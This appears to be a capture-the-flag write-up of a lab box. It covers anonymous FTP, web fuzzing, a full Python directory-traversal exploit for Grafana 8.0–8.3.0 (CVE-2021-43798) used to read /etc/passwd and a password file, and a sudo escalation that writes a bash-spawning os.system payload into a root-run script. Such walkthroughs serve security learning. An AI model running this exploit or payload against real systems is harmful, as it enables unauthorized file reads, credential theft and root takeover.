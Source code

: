 ﻿# ENUMERATION


## OPEN PORTS

![Pasted image 20241025014342.png](../../IMAGES/Pasted%20image%2020241025014342.png)


```ad-note
OPEN PORTS

21: `FTP (Anonymous login enabled)`
22: `SSH`
80: `HTTP`
3000: `HTTP`

```

First, we need to log into ftp taking advantage of that anonymous login that's enabled:

![Pasted image 20241025014539.png](../../IMAGES/Pasted%20image%2020241025014539.png)
We have a directory called `mantenimiento`, inside of this directory, we can find the following:

![Pasted image 20241025014619.png](../../IMAGES/Pasted%20image%2020241025014619.png)

A `database.kdbx` file is found inside of it, let's download it to our host machine and inspect it:

![Pasted image 20241025014823.png](../../IMAGES/Pasted%20image%2020241025014823.png)

If we try to use `keepass2` on the file, it is protected by a password, let's start with our websites enumeration to get that password.

We have two websites, let's try to enumerate them further using fuzzing and other techniques

## FUZZING

### PORT 80 WEBSITE

![Pasted image 20241025014929.png](../../IMAGES/Pasted%20image%2020241025014929.png)

Found a `/maintenance.html` directory that may be useful, let's visit it:

![Pasted image 20241025015023.png](../../IMAGES/Pasted%20image%2020241025015023.png)

So, seems like the password is in the `/tmp` directory, seems like we need to perform a path traversal in some sort of way to get that, let's enumerate the other website



### PORT 3000 WEBSITE

![Pasted image 20241025013600.png](../../IMAGES/Pasted%20image%2020241025013600.png)
A lot came from it, so, fuzzing seems pretty useless here, let's visit the website:

![Pasted image 20241025013631.png](../../IMAGES/Pasted%20image%2020241025013631.png)

Default page is a login page, something interest I found was this:


![Pasted image 20241025015156.png](../../IMAGES/Pasted%20image%2020241025015156.png)


Seems like it is running a `grafana` om the `v8.3.0`, let's search for some exploit in this version

![Pasted image 20241025015326.png](../../IMAGES/Pasted%20image%2020241025015326.png)

Perfect, found exactly what I needed, a [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/PATH TRAVERSAL|path traversal]] vulnerability that allow us to read that `/tmp/pass.txt` file:

```ad-important
exploit: [exploit](https://www.exploit-db.com/exploits/50581)
```

```python
# Exploit Title: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
# Date: 08/12/2021
# Exploit Author: s1gh
# Vendor Homepage: https://grafana.com/
# Vulnerability Details: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p
# Version: V8.0.0-beta1 through V8.3.0
# Description: Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files.
# CVE: CVE-2021-43798
# Tested on: Debian 10
# References: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p47p

#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import argparse
import sys
from random import choice

plugin_list = [
    "alertlist",
    "annolist",
    "barchart",
    "bargauge",
    "candlestick",
    "cloudwatch",
    "dashlist",
    "elasticsearch",
    "gauge",
    "geomap",
    "gettingstarted",
    "grafana-azure-monitor-datasource",
    "graph",
    "heatmap",
    "histogram",
    "influxdb",
    "jaeger",
    "logs",
    "loki",
    "mssql",
    "mysql",
    "news",
    "nodeGraph",
    "opentsdb",
    "piechart",
    "pluginlist",
    "postgres",
    "prometheus",
    "stackdriver",
    "stat",
    "state-timeline",
    "status-histor",
    "table",
    "table-old",
    "tempo",
    "testdata",
    "text",
    "timeseries",
    "welcome",
    "zipkin"
]

def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

    while True:
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass

def main():
    parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
    parser.add_argument('-H',dest='host',required=True, help="Target host")
    args = parser.parse_args()

    try:
        exploit(args)
    except KeyboardInterrupt:
        return


if __name__ == '__main__':
    main()
    sys.exit(0)
            
```


# EXPLOITATION

## LAUNCHING THE EXPLOIT

So, with the exploit in our hands, let's start with the next stage, let's launch the attack and try to read `/etc/passwd` to check if it works:

![Pasted image 20241025015835.png](../../IMAGES/Pasted%20image%2020241025015835.png)
And it works correctly, let's read our `/tmp/pass.txt` file!

![Pasted image 20241025015908.png](../../IMAGES/Pasted%20image%2020241025015908.png)

```ad-hint
`/tmp/pass.txt`: `t9sH76gpQ82UFeZ3GXZS`
```


Nice, we got what we needed, let's log in ssh using that password and the user `freddy` we previously read in that `/etc/passwd` file:

![Pasted image 20241025020149.png](../../IMAGES/Pasted%20image%2020241025020149.png)

Nice, we got access, let's start with the privilege escalation.

# PRIVILEGE ESCALATION



## SUDO -L

![Pasted image 20241025020240.png](../../IMAGES/Pasted%20image%2020241025020240.png)

Seems like we have a `/opt/maintenance.py` file we can exploit in order to get root access, let's check at the code:

![Pasted image 20241025020359.png](../../IMAGES/Pasted%20image%2020241025020359.png)

Something simple, just a print statement on it, let's check if we can write in it:

![Pasted image 20241025020446.png](../../IMAGES/Pasted%20image%2020241025020446.png)

And we can indeed write in it, let's escalate our privileges, for this, I used this code:

```python
import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")
```

This will pop a new shell with root privileges:

![Pasted image 20241025020740.png](../../IMAGES/Pasted%20image%2020241025020740.png)

And just like that, the CTF is done!

